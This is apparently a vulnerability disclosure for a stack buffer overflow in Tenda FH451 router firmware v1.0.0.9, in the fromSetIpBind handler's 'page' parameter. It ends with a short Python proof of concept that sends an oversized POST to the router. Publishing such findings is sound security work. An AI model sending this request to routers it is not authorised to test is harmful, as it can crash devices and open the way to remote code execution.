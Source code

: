 # Tenda FH451 fromSetIpBind
### Overview
vendor: Tenda

product: FH451

version: v1.0.0.9

type: Stack Overflow
### Vulnerability Description
Tenda FH451 v1.0.0.9 were discovered to contain a stack overflow via the page parameter in the fromSetIpBind function.

### Vulnerability details
In function fromSetIpBind line 16, it reads in a user-provided parameter `page`. The variable `v8` is passed to the `sprintf` function without any length check, which may overflow the stack-based buffer `s`. As a result, by requesting the page, an attacker can easily execute a denial of service attack or remote code execution.

![](images/7.png)

### POC
```python
import requests

ip = "192.168.0.1"
url = "http://" + ip + "/goform/SetIpBind"

data = {
    "page": "a" * 1000
}

response = requests.post(url, data=data)
print(response.text)
```